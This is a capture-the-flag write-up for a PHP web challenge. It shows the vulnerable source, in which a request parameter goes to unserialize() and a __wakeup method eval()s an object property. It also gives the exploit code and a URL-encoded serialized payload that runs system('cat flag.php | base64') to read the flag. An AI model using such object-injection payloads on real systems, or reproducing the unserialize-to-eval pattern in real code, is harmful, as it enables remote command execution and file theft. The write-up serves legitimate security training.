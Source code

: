# whats-your-name-part1 : Web

Flag Proof:`CTF{3346176ac1e79283318b4f69587c4b29b06d7e1fe385
3a4f37bb5442c80ba3fd}`

## Summary:

- Taking a look at the source code of the page, we see a comment `?source=`
- Using it as a `GET` param, we can see the source code of the page which is using some serialized php objects.

```php
<?php

error_reporting(0);
(isset($_GET['source']) AND show_source(__FILE__) AND die()); 

    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['name'])){  
        $var1=unserialize($_REQUEST['name']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo "What's your name? Part 1";
    }
?>

<!-- /?source -->
```

- it gets from a `GET` param `name`. Using this php code i  create my serialized object to exploit it and to give us the flag.

```php
<?php

 class PHPObjectInjection{
    public $inject;

}
$obj = new PHPObjectInjection();
$obj->inject =  "system('cat flag.php | base64');";

echo serialize($obj);
?>
```

- payload (i like using Base64 encoding as i know for sure the output will not be processed)  :
    - `O:18:%22PHPObjectInjection%22:1:{s:6:%22inject%22;s:32:%22system(%27cat%20flag.php%20|%20base64%27);%22;}`
- Passing it in browser/burp/curl will give us the base64 encoded string

![Untitled](whats-your-name-part1%20Web%20d382168989134f11a94483b68977e62d/Untitled.png)

- Decoding it gives us the flag

![Untitled](whats-your-name-part1%20Web%20d382168989134f11a94483b68977e62d/Untitled%201.png)
